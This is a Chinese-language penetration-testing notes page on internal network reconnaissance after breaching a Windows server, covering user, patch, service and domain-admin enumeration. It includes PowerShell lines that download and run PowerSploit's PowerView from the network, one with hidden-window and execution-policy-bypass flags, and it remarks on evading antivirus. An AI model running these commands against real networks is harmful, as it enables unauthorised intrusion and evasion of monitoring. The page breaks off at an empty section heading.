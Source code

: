 # 内网信息收集

进入到目标公司内网的某台服务器之后，面临新的问题：

* 下一步应该做什么？
* 需要收集哪些信息？
* 如何收集相关信息？
* 如何获取域管理员权限？



## Windows枚举

```powershell
whoami /all && ipconfig /all && netstat -ano && net accounts && net localgroup administraors && net share
```

命令部分结果截图

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210824152600.png)

还可以再通过Windows PowerShell工具和脚本收集更多信息。

### 检查Windows操作系统补丁

网络中绝大多数客户端主机通常都安装相类似的系统补丁。因此突破一台主机，就可以了解其他机器系统补丁的情况。

```
C:\Users\huan>powershell -command Get-HotFix

Source        Description      HotFixID      InstalledBy          InstalledOn
------        -----------      --------      -----------          -----------
DESKTOP-7U... Update           KB4515871                          2019/12/5 0:00:00
DESKTOP-7U... Update           KB4601556
DESKTOP-7U... Update           KB4513661                          2019/12/5 0:00:00
DESKTOP-7U... Security Update  KB4516115                          2019/12/5 0:00:00
DESKTOP-7U... Update           KB4517245                          2019/12/5 0:00:00
DESKTOP-7U... Security Update  KB4524569                          2019/12/5 0:00:00
DESKTOP-7U... Update           KB4530684                          2019/12/5 0:00:00
```

显示所有域用户和相关信息

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');Get-NetUser > .\test.txt"
```

>  -Domain 指定域名

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/d125ae1bf78447bcef6721dbff02e44.png)

这条命令执行发现失败，Windows defer弹出木马病毒警告，那如果在内网渗透中，对方有做监控告警，岂不是凉凉了？但如果对方关闭了防毒软件，那么也许就能操作成功。再多说一句，目前使用Windows Server来做服务器的公司是越来越少了，而Linux更是没有防毒软件，**且黑且珍惜**。

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');GetUserProperties -Properties name, memberof,   description, info > .\test.txt"
```

```
C:\Users\huan>wmic useraccount get /ALL /format:csv

Node,AccountType,Caption,Description,Disabled,Domain,FullName,InstallDate,LocalAccount,Lockout,Name,PasswordChangeable,PasswordExpires,PasswordRequired,SID,SIDType,Status
DESKTOP-7UETL55,512,DESKTOP-7UETL55\Administrator,管理计算机(域)的内置帐户,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,Administrator,TRUE,FALSE,TRUE,S-1-5-21-280794800-3581089400-2904463151-500,1,Degraded
DESKTOP-7UETL55,512,DESKTOP-7UETL55\DefaultAccount,系统管理的用户帐户。,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,DefaultAccount,TRUE,FALSE,FALSE,S-1-5-21-280794800-3581089400-2904463151-503,1,Degraded
DESKTOP-7UETL55,512,DESKTOP-7UETL55\Guest,供来宾访问计算机或访问域的内置帐户,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,Guest,FALSE,FALSE,FALSE,S-1-5-21-280794800-3581089400-2904463151-501,1,Degraded
DESKTOP-7UETL55,512,DESKTOP-7UETL55\huan,,FALSE,DESKTOP-7UETL55,,,TRUE,FALSE,huan,TRUE,FALSE,FALSE,S-1-5-21-280794800-3581089400-2904463151-1001,1,OK
DESKTOP-7UETL55,512,DESKTOP-7UETL55\WDAGUtilityAccount,系统为 Windows Defender 应用程序防护方案管理和使用的用户帐户。,TRUE,DESKTOP-7UETL55,,,TRUE,FALSE,WDAGUtilityAccount,TRUE,TRUE,TRUE,S-1-5-21-280794800-3581089400-2904463151-504,1,Degraded
```

启用远程桌面，**需要管理员权限运行PowerShell程序**。

```
PS C:\Windows\system32> Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -Name 'PortNumber' -Value 3389
```

查看所有服务

```
powershell -command Get-Service

Status   Name               DisplayName
------   ----               -----------
Stopped  AarSvc_3898c       Agent Activation Runtime_3898c
Stopped  AJRouter           AllJoyn Router Service
Stopped  ALG                Application Layer Gateway Service
Stopped  AppIDSvc           Application Identity
Running  Appinfo            Application Information
Stopped  AppMgmt            Application Management
Stopped  AppReadiness       App Readiness
....................................
```

### 搜索域控

```
nltest /DCLIST:[Domain]
```

### 查看域管理员

```
net group "Domain Admins" /domain
```

### 查看本地管理员

```
net localgroup administrators /DOMAIN
```

### 查找共享目录






































